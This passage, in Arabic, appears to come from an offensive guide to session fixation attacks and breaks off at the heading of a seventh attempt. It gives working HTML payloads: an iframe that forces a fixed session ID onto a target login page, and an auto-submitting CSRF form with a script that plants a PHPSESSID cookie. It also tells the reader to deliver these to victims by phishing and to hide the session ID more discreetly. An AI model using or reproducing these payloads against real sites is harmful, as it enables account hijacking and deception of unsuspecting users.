 #### ⚙️ الخطوات:
1. إنشاء صفحة HTML بسيطة:
```html
<html>
  <body>
    <iframe src="https://target.com/login?sessionid=hacker_session"></iframe>
  </body>
</html>
```
2. إرسال الرابط للضحية.
3. عند تسجيل الدخول، الجلسة ستكون باسم `hacker_session`.

#### 🛠️ الأداة:
- **HTML Host Server**
- **Phishing Email or Social Engineering**

#### 💡 نصيحة:
استخدم أيضًا `<img>` أو `<script>` tags لإرسال Session ID بشكل أقل وضوحًا.

---

### 🧪 المحاولة #6: استخدام Cross-Site Request (CSRF) + Session Fixation

#### 📌 الفكرة:
دمج CSRF مع Session Fixation لتجهيز الجلسة وتسبب تسجيل الدخول عن بعد.

#### ⚙️ الخطوات:
1. إنشاء صفحة HTML بها نموذج POST:
```html
<form action="https://target.com/login" method="POST" id="auto">
  <input type="hidden" name="username" value="admin">
  <input type="hidden" name="password" value="pass123">
</form>

<script>
  document.cookie = "PHPSESSID=hacker_session; path=/";
  document.getElementById("auto").submit();
</script>
```
2. إرسال الرابط للضحية → يتم تسجيل الدخول بجلسة معينة.

#### 🛠️ الأداة:
- **BeEF**
- **Burp CSRF PoC Generator**

#### 💡 نصيحة:
تأكد من أن الخادم لا يستخدم Anti-CSRF tokens.

---

### 🧪 المحاولة #7: استخدام Flash أو Silverlight لإرسال كوكيز محددة
